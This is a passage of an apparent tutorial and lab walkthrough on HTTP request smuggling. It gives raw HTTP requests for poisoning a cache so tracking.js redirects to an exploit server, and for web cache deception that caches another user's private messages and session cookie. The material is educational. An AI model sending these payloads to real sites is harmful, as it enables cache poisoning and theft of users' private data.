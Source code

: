 ```
5. Then fetch */resources/js/tracking.js* by sending the following request:

    ```
    GET /resources/js/tracking.js HTTP/1.1
    Host: ac211f921f544b6cc0e5110b00dc0040.web-security-academy.net
    Connection: close
    ```

    If the attack has succeeded, the response to the *tracking.js* request should be a redirect to your exploit server.
6. Confirm that the cache has been poisoned by repeating the request to *tracking.js* several times and confirming that you receive the redirect every time.

## Using HTTP request smuggling to perform web cache deception

- In web cache poisoning, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
- In web cache deception, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

In this variant, the attacker smuggles a request that returns some sensitive user-specific content. For example:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

The next request from another user that is forwarded to the back-end server will be appended to the smuggled request, including session cookies and other headers. For example:

```
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

The back-end server responds to this request in the normal way. The URL in the request is for the user's private messages and the request is processed in the context of the victim user's session. The front-end server caches this response against what it believes is the URL in the second request, which is */static/some-image.png*:

```
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
